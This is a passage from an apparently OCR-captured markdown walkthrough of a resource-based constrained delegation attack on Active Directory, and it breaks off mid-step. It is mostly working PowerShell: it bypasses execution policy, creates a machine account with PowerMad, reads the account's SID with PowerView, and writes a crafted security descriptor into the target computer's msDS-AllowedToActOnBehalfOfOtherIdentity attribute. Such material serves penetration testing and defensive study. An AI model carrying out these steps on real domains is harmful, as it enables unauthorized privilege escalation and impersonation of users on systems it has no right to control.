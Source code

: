 2. Create a machine account

```bash
# Create a machine account using PowerMad tool
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount test3 -Password $(ConvertTo-SecureString "Passw0rd" -AsPlainText -Force)

# Query whether the query was successfully added
net group "domain computers" /domain
```

![](./images/36.png#pic_center)

3. Set delegation attributes

```bash
# Use PowerView tool to query the sid of the machine account
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1
Get-NetComputer test3 -Properties objectsid
# test3$ sid S-1-5-21-968465445-4220942410-845371271-1113
```

```bash
# Modify the delegation attribute of the service resource, that is, the msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-968465445-4220942410-845371271-1113)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer WIN-DATA| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# Query properties (the latter command uses the Active Directory module, the domain control defaults)
```